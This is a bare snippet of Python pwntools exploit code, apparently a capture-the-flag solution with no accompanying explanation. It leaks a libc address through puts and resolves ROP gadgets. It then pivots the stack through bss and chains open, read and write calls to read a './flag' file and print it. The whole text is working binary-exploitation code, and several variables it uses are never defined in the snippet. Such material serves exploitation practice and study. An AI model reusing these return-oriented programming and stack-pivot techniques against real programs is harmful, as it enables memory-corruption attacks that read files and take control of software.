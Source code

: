 ```plain


pay=p64(bss+0x70)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
r.send(pay)

leak=u64(r.recv(6)+b'\x00'*2)
base=leak-libc.sym['puts']
print(hex(base))
pop_rdi = base + libc.search(asm('pop rdi;ret;')).__next__()
pop_rsi = base + libc.search(asm('pop rsi;ret;')).__next__()
pop_rdx12 = base + libc.search(asm('pop rdx;pop r12;ret;')).__next__()
read_addr = base + libc.sym['read']

r.recv()
pay=b'a'*0x60+p64(bss5)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss5+0x60)+p64(read)
r.send(pay)


pay=p64(bss5+0x70)+p64(rdi)+p64(0)+p64(rsi_r15)+p64(0x404900)+p64(0x40)+p64(base+libc.sym['read'])+p64(main)
r.send(pay)

sleep(0.1)
r.send("./flag")


r.recv()
pay=b'a'*0x60+p64(bss6)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss6+0x60)+p64(read)
r.send(pay)


pay=p64(bss6+0x70)+p64(rdi)+p64(0x2)+p64(rsi_r15)+p64(0x404900)+p64(0)+p64(base+libc.sym['syscall'])
pay+=p64(rdi)+p64(3)+p64(rsi_r15)+p64(0x404900)+p64(0x100)+p64(base+libc.sym['read'])+p64(main)
r.send(pay)

r.recv()
pay=b'a'*0x60+p64(bss7)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss7+0x60)+p64(read)
r.send(pay)

pay=p64(bss7+0x70)+p64(pop_rdi)+p64(1)+p64(rsi_r15)+p64(0x404900)+p64(0x100)+p64(base+libc.sym['write'])+p64(main)
r.send(pay)


r.interactive()
```

